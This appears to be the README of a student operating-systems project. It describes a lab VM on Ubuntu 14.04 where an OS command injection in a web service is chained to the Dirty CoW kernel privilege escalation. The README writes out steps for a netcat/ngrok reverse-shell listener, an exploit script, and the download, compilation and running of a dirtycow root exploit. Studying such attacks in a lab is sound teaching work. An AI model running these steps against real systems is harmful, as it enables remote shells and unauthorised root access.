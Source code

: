 # COMP2040 - Operating System Group Project

+ **Group**: UCA 
+ **Members**:
  + Nguyen Tuan Anh
  + Nguyen Thai Uyen
  + Phan Thi Hien Chi 
+ **Topics**: GNU/Linux Kernel & Kernel vulnerabilities 

## Topic

Bug chain of OS Command Injection to Dirty CoW ([CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)) on Linux 3.13.0-170-generic kernel (Ubuntu 14.04.02 Trusty Tahr)

## Setup 

1. Using Virtualbox/VMWare/any virtualization, with amd64/i386 image of [Ubuntu 14.04.02](http://old-releases.ubuntu.com/releases/14.04.0/)
2. (Optional but highly recommended) Install a higher version of Python3 (3.7+). Follow this [guide](https://github.com/actions/setup-python/issues/93).
3. Clone this repository

```bash
git clone https://github.com/h114mx001/COMP2040-LinuxKernelVulns
```
4. Run the web service
```bash
cd COMP2040-LinuxKernelVuln
python3 ./main.py
```
5. Assert the service is accessible from outside of the VM.

## Attack

1. Setup reverse shell listener on the host machine 
```bash
ngrok tcp 4444 
# in another terminal
nc -lvnp 4444
```
2. Run the exploit script, with updated IP address of the ngrok server
```bash
python3 ./exploit.py
``` 
3. Access the web service from the VM, and observe the reverse shell on the host machine by sending the payload generated by the exploit script.
4. Install the dirtycow exploit on the VM 
```bash 
wget ...
gcc -pthread dirtycow_privesc.c -o dirtycow -lcrypt
./dirtycow
```
5. Have fun with the root shell :) 
```bash 
su root
```
